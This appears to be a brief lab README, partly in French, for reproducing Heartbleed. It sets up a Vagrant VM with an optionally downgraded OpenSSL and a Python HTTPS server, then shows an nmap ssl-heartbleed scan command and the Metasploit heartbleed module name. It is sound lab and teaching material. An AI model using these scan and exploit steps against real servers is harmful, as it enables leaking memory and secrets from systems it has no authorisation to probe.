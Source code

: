 
```bash
vagrant up
vagrant ssh
#sudo apt-get update
#sudo apt-get remove openssl
#sudo apt-get install openssl=1.0.1-4ubuntu3
openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes

```
Modifier ip du serveur :

```python
# openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('172.28.128.6', 4443), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```

commande scan :

nmap -sV --script=ssl-heartbleed 172.28.128.6

Metasploit exploit : 

use auxiliary/scanner/ssl/openssl_heartbleed

CF. asciinema
